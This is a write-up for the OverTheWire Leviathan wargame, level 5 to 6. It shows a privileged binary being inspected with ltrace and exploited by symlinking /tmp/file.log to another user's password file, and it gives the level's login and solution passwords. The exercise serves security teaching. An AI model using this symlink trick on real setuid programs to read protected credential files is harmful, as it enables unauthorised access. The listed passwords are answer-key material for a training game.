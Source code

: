 # Level 5 → Level 6

## Solution
```
ssh leviathan5@leviathan.labs.overthewire.org -p 2223
```
```
EKKlTF1Xqs
```
```
ls -al
```
```
./leviathan5
```

![](0.png)

```
echo wow > /tmp/file.log
```
```
./leviathan5
```

![](1.png)

```
cat /tmp/file.log
```

![](2.png)

So the software accepts an existing file for printing, and then deletes it. Let's see how:

```
echo wow > /tmp/file.log ; ltrace ./leviathan5
```

![](3.png)

In other words - the `cat` command is not used. So, what can we do?.. Let's remember that Linux has a so-called [symbolic link](https://www.freecodecamp.org/news/linux-ln-how-to-create-a-symbolic-link-in-linux-example-bash-command/) (The hint is the use of the `unlink` function). We can make the file `/tmp/file.log` be a link to the file `/etc/leviathan_pass/leviathan6` and thus print it (with the permissions of the software i.e. **leviathan6 permission**)

```
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
```
```
./leviathan5
```

## Password for the next level:
```
YZ55XPVk2l
```
